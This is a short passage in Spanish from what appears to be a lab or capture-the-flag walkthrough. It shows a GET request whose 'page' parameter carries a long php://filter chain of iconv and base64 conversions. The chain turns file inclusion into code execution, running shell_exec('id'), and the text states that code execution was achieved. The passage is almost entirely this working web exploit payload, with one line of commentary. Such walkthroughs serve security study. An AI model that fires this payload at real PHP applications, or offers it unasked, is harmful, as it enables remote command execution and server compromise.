 Enviamos la petición `GET`

```c
/?page=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=home&0=echo '|jmrcsnchz|<pre>'.shell_exec('id').'</pre>';
```

Observamos que se tiene la ejecución de código.

![20240920123159.png](20240920123159.png)
